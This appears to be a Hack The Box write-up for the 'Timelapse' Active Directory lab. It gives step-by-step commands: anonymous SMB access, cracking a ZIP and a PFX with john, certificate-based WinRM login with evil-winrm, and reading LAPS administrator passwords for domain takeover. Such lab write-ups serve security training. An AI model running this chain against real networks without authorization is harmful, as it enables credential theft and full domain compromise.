










<div align="left">


</div>

## Timelapse Hack The Box Write-Up

<div align="left">

<br>
<br>


</div>

Timelapse is a **Windows Active Directory** machine that demonstrates how **poor backup hygiene and certificate mismanagement** can lead to a full **Domain Controller compromise**.

The attack chain highlights:

* Anonymous SMB access to internal backups
* Cracking password-protected ZIP archives
* Cracking and abusing PFX certificates
* Certificate-based WinRM authentication
* Abuse of misconfigured **LAPS (Local Administrator Password Solution)** permissions

This box reflects **real enterprise failure paths** commonly abused during internal penetration tests.

---

## 🛠 Tools


The lab was completed using standard internal Active Directory assessment tooling, focused on archive cracking and authenticated remote management.
```
nmap                → service discovery and domain controller identification
smbclient           → accessing SMB shares and downloading backup files
zip2john            → extracting hashes from password-protected ZIP files
pfx2john            → extracting hashes from PFX certificate files
john                → cracking hashes using the rockyou wordlist
openssl             → extracting private keys from cracked certificates
evil-winrm          → authenticated remote access and LAPS enumeration
```
---

## 🔍 Enumeration

### Nmap Recon

Goal: Identify exposed services and confirm Active Directory role.

```
nmap -sC -sV -Pn <TARGET_IP>
```

**Observations:**

* DNS, Kerberos, LDAP, SMB, and WinRM exposed
* Host identified as a **Domain Controller**

---

## 📁 SMB Enumeration (Guest Access)

Goal: Identify anonymously accessible shares.

```
smbclient -L //<TARGET_IP>/
```

**Observations:**

* Publicly accessible `Shares` directory
* Internal directory structure visible without authentication

---

## 📦 Backup Discovery & Download

Goal: Retrieve sensitive backup archives.

```bash
smbclient //<TARGET_IP>/Shares
cd dev
get winrm_backup.zip
```

**Observations:**

* Password-protected WinRM backup archive discovered

---

## 🔐 ZIP Password Cracking

Goal: Extract the ZIP password.

```bash
zip2john winrm_backup.zip > zip.john
john zip.john --wordlist=/usr/share/wordlists/rockyou.txt
```

**Result:**

```
ZIP password: REDACTED
```

---

## 🔑 PFX Certificate Cracking

Goal: Crack the embedded certificate password.

```bash
pfx2john legacyy_dev_auth.pfx > pfx.john
john pfx.john --wordlist=/usr/share/wordlists/rockyou.txt
```

**Result:**

```
PFX password: REDACTED
```

---

## 🔓 Extracting the Private Key

Goal: Convert the PFX file into a usable private key.

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
```

**Outcome:**

* Valid RSA private key extracted

---

## 🖥 Initial Access — WinRM (Certificate Auth)

Goal: Authenticate without a password using the extracted certificate.

```
evil-winrm -i <TARGET_IP> -c cert.pem -k key.pem -S
```

**Result:**

* Successful shell as user `legacyy`

---

## 🧭 Privilege Enumeration

Goal: Identify elevated permissions.

```powershell
whoami /groups
```

**Observation:**

* User is a member of **LAPS_Readers**

---

## 🔑 LAPS Abuse — Domain Admin Password

Goal: Retrieve the local Administrator password from AD.

```powershell
Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd | Select Name, ms-Mcs-AdmPwd
```

**Result:**

* Plaintext Administrator password retrieved *(redacted)*

---

## 👑 Domain Admin Access

Goal: Authenticate as Administrator.

```
evil-winrm -u Administrator -p '<REDACTED>' -i <TARGET_IP> -S
```

**Outcome:**

* Full administrative control over the Domain Controller

---

## 🧠 What This Box Teaches

* Public backups are high-value attack targets
* Certificate-based authentication can bypass password controls
* LAPS misconfiguration directly leads to Domain compromise
* AD attribute abuse is a powerful post-exploitation vector

---

## 📌 Conclusion

Timelapse reinforces a critical real-world lesson:

> *Technical exploits are often unnecessary when backups and AD permissions are mismanaged.*

If an attacker can access old backups or read LAPS attributes, **the entire domain is compromised**.

This work is part of **FuzzRaiders**’ structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability, methodological rigor and real-world security execution

Happy hacking 🚀

---

### Author
## [LinkedIn:](https://www.linkedin.com/in/manka-sec/)
---


